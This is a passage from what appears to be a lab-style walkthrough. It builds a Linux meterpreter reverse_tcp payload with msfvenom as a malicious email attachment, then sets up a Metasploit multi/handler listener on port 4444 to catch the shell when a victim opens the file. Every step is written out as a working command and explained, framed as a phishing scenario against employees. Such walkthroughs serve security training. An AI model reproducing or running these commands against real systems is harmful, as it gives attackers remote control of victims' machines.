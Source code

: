 4. Next, let's create the binary: 

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.5.5.143 LPORT=4444 -f elf > malicious.elf
```

5. Let's break this down to understand what we just did. 

First, we called msfvenom. Then, we used parameter `-p` which allows us to specify which payload to use. Now, the payload we chose was `linux/x64/meterpreter/reverse_tcp` and the reason for this is that, our first email notified us that all employees use Linux. The rest of the payload, is us choosing a staged payload with meterpreter, which will make it easier once we gain a session. `LHOST` just means `local host`, so here you would enter the ip you wrote down before. `LPORT` is just a random port (usually 4444 by default) were we will be listening once the user executes our malicious attachment. Finally, `-f elf` allows you to specify which type of file we want. Usually, for Windows is `.exe` and for Linux `.elf`. And then, any name you want the file to have. 

6. We are now ready to start listening. 

### Preparing msfconsole

1. Now that we have the malicious file ready, we can configure msfconsole to listen on port 4444 to see when someone clicks our attachment. Follow the next commands to configure it. First, run msfconsole. 

``` 
msfconsole
```
2. Now, let's use `multi/handler` since it a very popular listener and will work great with our binary.
```
use multi/handler
```

3. Then, select which payload to use. This should be the exact same as your attachment payload. 
```
set payload linux/x64/meterpreter/reverse_tcp
```

4. You can now see the options to make sure how to configure `multi/handler` properly
```
show options
```

5. Here you will notice that you only need your local host and local port. Both of these should be the same as the ones used when creating the malicious file. 
```
set LHOST 10.5.5.143
set LPORT 4444
```
6. Finally, you can write the following to start listening.
```
run
```

![Image 4](./img/img_5.png)
